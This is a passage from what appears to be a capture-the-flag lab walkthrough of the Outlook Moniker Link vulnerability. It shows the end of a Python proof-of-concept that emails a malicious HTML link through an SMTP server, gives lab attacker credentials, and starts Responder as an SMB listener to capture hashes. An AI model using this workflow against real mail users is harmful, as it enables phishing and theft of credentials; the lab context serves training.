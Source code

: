 ```python
# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
	server.login(sender_email, password)
except Exception as err:
	print(err)
	exit(-1)

try:
	server.sendmail(sender_email, [receiver_email], message.as_string())
	print("\n Email delivered")
except Exception as error:
	print(error)
finally:
	server.quit()
```

The PoC:

- Takes an attacker victim & email. Normally, you would need to use your own SMTP server (this has been provided in this room).
- Requires the password to authenticate. For this room, the password for **attacker@monikerlink(.)thm** is **attacker**.
- Contains the email content (html_content), which contains our Moniker Link as a HTML hyperlink.
- Then, fill in the "subject", "from", and "to" fields in the email. 
- Finally, it sends the email to the mail server.

Let's use `Responder` to create an SMB listener on our attacking machine. For the THM AttackBox, the interface will be `-I ens5`. The interface name will differ if you are using your own device (i.e. Kali). If you would like some homework, an Impacket server can also be used. 

```shell-session
root@attackbox:# responder -I ens5
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

-- cut for brevity --

[+] Listening for events...
```
